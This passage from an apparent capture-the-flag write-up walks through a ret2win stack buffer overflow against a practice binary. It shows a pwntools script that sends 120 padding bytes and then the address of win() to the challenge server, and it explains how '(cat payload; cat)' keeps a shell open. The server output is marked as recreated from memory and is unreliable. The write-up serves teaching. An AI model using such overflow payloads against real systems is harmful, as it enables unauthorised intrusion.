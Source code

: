 We now see that the program doesn't instantly crash and waits for input instead. And as soon as we enter a command we get the output back. This is because of the second `cat` in the `(cat payload; cat)`-command. `cat` with no arguments will just wait for input and also write any output back to us.

Hopefully this demonstration can save someone a lot of issues on the future! Now let's move on.


## Testing The Exploit On The Remote Target

Our remote target:
  - Host: `io.ept.gg`
  - Port: `30009`

Let's modify our `solve.py` script to connect to the remote host instead of running the binary locally:

*Partial code from `solve.py`:*
```python
# load the ELF-object to easily lookup symbols
elf = ELF('./rip')
addr_win = elf.symbols['win']

offset = 120

payload = b"".join([
    b'A' * offset,
    p64(addr_win)
])

#io = process('rip')
io = connect("io.ept.gg", 30009)
io.recvuntil(b"> ")
io.sendline(payload)
io.interactive()
```

Our payload is the same as before and we only have to swap out one line of code to run the exploit on the remote target:

```python
#io = process('rip')
io = connect("io.ept.gg", 30009)
```

Let's try:

*TODO: Add proper output from server (the follwing is recreated from memory):*

```bash
$ python solve.py
[+] Opening connection to io.ept.gg on port 30009: Done
[*] Switching to interactive mode
nope.
$
[*] Got EOF while sending in interactive
BrokenPipeError: [Errno 32] Broken pipe
```
